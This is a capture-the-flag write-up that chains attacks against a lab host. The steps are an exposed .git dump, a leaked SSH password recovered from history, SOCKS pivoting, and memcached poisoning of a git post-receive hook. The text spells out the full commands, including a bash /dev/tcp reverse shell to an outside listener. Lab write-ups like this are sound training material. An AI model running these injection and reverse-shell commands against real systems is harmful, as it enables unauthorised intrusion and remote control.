








# Recon

The portscan reveals an SSH and a HTTP server on the given ports.

```bash
nmap -sV -p17367,22283 10.10.1.11
```



# Exposed .git

The webserver serves the default Apache page. A quick dirb run finds the exposed git dir as well.

```bash
dirb http://10.10.1.11:22283
```


Directory listing is disabled, but the files are directly reachable, so the whole repository can be recovered with [git-dumper](https://github.com/HightechSec/git-dumper):

```bash
git-dumper http://10.10.1.11:22283/.git/ dump
```

The dump is saved to [gitdump.zip](workdir/gitdump.zip).

# Oops

The history has three commits.

```bash
git log -p
```



The `Oooops` commit removes a `.git-credentials` file that was committed in the initial commit. Removing a file in a follow-up commit does not remove it from history:

```
git:REvOnr2nTInUUja6rhFEtR8oxg1fnClB
```

# SSH

The credentials work for the `git` user over SSH on port `17367`. The login shell is `git-shell`, so there is no interactive session.

```bash
sshpass -p REvOnr2nTInUUja6rhFEtR8oxg1fnClB git@10.10.1.11 -p 17367
```



But the SSH server allows port forwarding for the `git` user, which is enough to look around inside the container. Opening a SOCKS proxy, and proxychains have a config for port 1080.

```bash
sshpass -p REvOnr2nTInUUja6rhFEtR8oxg1fnClB ssh -D 1080 -N -f git@10.10.1.11 -p 17367
```

# Cache

A full port scan through the proxy shows what else is listening on localhost inside the container.

```bash
for PORT in $(seq 1 65535); do timeout 2 proxychains nc -zv 127.0.0.1 $PORT 2>&1 | grep OK; done
```



Port `11211` is `memcached`. Can be confirmed with simple command.

```bash
proxychains nc 127.0.0.1 11211
version
```



# Git hook

The `memcached` keys can be listed and read:

```bash
proxychains memcdump --servers=127.0.0.1
proxychains memccat --servers=127.0.0.1 "git:cache:hooks/post-receive"
```



# ~~Cashing~~ Caching the flag out

First a sanity check, listing `/usr/bin` through the hook. The push needs a ref update for the hook to run, hence the empty commit.

```bash
sshpass -p REvOnr2nTInUUja6rhFEtR8oxg1fnClB git clone ssh://git@10.10.1.11:17367/home/git/repo gitinternal
cd gitinternal
(export cmd="ls /usr/bin"; printf 'replace git:cache:hooks/post-receive 0 0 %d\n%s #\n' $((${#cmd}+2)) "$cmd" | timeout 0.3 proxychains nc -v -C 127.0.0.1 11211 ); echo "$(date +%s)" > test.txt && git add test.txt && git commit -m "upd" && sshpass -p REvOnr2nTInUUja6rhFEtR8oxg1fnClB git push -f
```



The trailing ` #` keeps the carriage return that terminates the memcached response line from ending up inside the command.

A reverse shell payload works the same way. While netcat is installed, it was a flavor without code execution.

```bash
(export cmd="bash -c '/bin/bash -i >& /dev/tcp/10.8.0.59/8000 0>&1'"; printf 'replace git:cache:hooks/post-receive 0 0 %d\n%s #\n' $((${#cmd}+2)) "$cmd" | timeout 0.3 proxychains nc -v -C 127.0.0.1 11211 ); echo "$(date +%s)" > test.txt && git add test.txt && git commit -m "upd" && sshpass -p REvOnr2nTInUUja6rhFEtR8oxg1fnClB git push -f
```



With a listener, the shell arrives as the `git` user, and the flag is in the home directory.

```bash
cat /home/git/d3v3l0p3r_d1rty_s3cr3t/flag.txt
HCSC{c4Ch3_Me_1f_y0U_cAn}
```

# Flag

`HCSC{c4Ch3_Me_1f_y0U_cAn}`

# Cron

There was something that was writing back the original hook. Turns out it was a cron job doing it every minute, so the poisoning and the push have to happen within the same minute. Cache me if you can.

# Source

After the code execution, some of the files were taken and a docker reconstruction of the challenge was created in [src/docker.tar.gz](src/docker.tar.gz). It is not the original source, but good for practice. It maps the original ports to `17367` (SSH) and `22283` (HTTP).
